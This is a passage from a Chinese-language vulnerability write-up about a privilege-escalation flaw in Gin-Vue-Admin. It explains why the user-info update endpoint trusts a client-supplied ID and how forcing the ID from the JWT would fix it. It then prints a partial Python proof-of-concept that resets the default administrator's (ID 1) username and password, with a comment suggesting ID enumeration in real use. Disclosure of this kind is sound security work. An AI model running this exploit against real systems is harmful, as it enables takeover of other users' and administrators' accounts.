![image-20220104132137472](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220104132137472.png)

所以就导致了越权，因为这个ID可以前端传入的时候可以控制，并且也已经鉴权之后了，在与作者沟通之后，解释说修复也比较简单，只需要将user.id强制赋值为JWT所对应的权限ID即可，这样就不会造成越权了，因为前端怎么传入，最终在代码中还是有一行会将user.id的值修改为当前JWT所对应的id

但是在业务流程逻辑中，这些权限又是必须给的，因为不给的话，当前用户是没有办法修改自己的信息的

![image-20220104135624752](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220104135624752.png)

### 五、POC编写

```python
#!/usr/bin/env python
# -*- coding: UTF-8 -*-
'''
@Project ：UzJuSecurityTools 
@File    ：Gin-Vue-Admin-Poc.py
@Author  ：UzJu
@Date    ：2021/12/31 11:20 
@Email   ：UzJuer@163.com
'''

import requests
import json
import sys


class GinVueAdminPoc:
    def __init__(self, url, token):
        self.url = url
        self.jwt_token = token
        '''
        define vuln interface
        '''
        # Method PUT Severity High
        self.setUserInfo = "/api/user/setUserInfo"
        # Method POST Severity Moderate
        self.changePassword = "/api/user/changePassword"

    def checkVuln(self):
        '''
        因为默认管理员的用户ID为1，所以，这里直接修改ID为1的用户账号为admin，密码为qwe@123
        在实际使用中，可以通过遍历ID，来判断哪个ID用户存在，不过默认用户在实战中应该都是存在的
        The default user ID of the administrator is 1. Therefore, change the account of user 1 to admin and the password to qwe@123
        In practice, you can check which ID exists by iterating through the ID, but the default user should exist in practice
        '''
        payload_data = {
                            "id": 1,
                            "username": "admin",
                            "nickName": "超级管理员",
                            "Password": "qwe@123"
                        }
        # Change the administrator password to qwe@123, because the default administrator ID is 1
        headers = {
            "x-token": self.jwt_token
        }
        result = requests.put(url=self.url + self.setUserInfo,
                              headers=headers,
                              data=json.dumps(payload_data)
                              )
        if json.loads(result.content)['code'] == 7:
            print("[-]Modify the failure")
```